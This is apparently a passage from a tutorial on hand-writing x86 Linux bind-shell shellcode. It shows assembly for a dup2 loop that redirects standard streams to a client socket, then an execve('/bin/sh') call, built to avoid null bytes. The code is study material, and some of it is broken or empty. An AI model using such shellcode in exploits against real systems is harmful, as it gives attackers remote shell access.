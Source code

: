The return value for accept is the descriptor for the client connection, which will be used as an argument for dup2 in the EBX register.  We can just move this from EAX to EBX first.

dup2(client_socket, 0);

dup2(client_socket, 1);

dup2(client_socket, 2);

This translates to:

EAX - 0x3f

EBX - return value from accept

ECX - integer 2, 1, or 0

Since this is the same call 3 times and the only difference is an increasing (*hint* or decreasing) int.. this looks like a loop would be best to use here.

Luckily, our loop only needs to decrease from 2.  ECX can be used as the counter AND the argument, which helps us out a lot here.

Grab the syscall number for dup2:
```c
cat /usr/
```
There is a conditional jump in assembly called jns which means, as I understand it, "Jump No Sign".  Which will take the jump until the Sign Flag is set.  As an easier description.. Take the jump until the value becomes negative.

This conditional jump is perfect for us because it will include 0 in our loop before exiting.
```asm
        mov ebx, eax    ; client_socket arg
        xor ecx, ecx    ; zero ecx avoiding nulls
        mov cl, 0x2     ; setup counter
dup:
        mov al, 0x3f
        int 0x80        ; dup2(client_socket, [ecx])
        dec ecx
        jns dup
```
### Execute a shell
Now we just need to execute /bin/sh with execve to give the client the shell.

The call will be:

execve("/bin/sh", NULL, NULL);

We have to null terminate the string for "/bin/sh" so we will use the stack to assign it to the proper register.

EDX is still 0'd out so we can keep it the same and also use it to make ECX 0.

Note that, for ease of writing, we want 8 characters for our string.  We can do "/bin//sh" to effectively give the same command and have the proper length.  We also want to reverse the string, split it in to 4 character sections and push it on to the stack in hex.
```asm
push edx  ; null terminate the string
push 0x68732f2f ; push hs//
push 0x6e69622f ; push nib/

mov ebx, esp    ; move null terminated string into register

mov ecx, edx    ; 0x0
mov al, 0xB     ; syscall execve
int0x80         ; execve("/bin/sh", NULL, NULL);
```
### Putting It All Together
The final product is:
```asm
```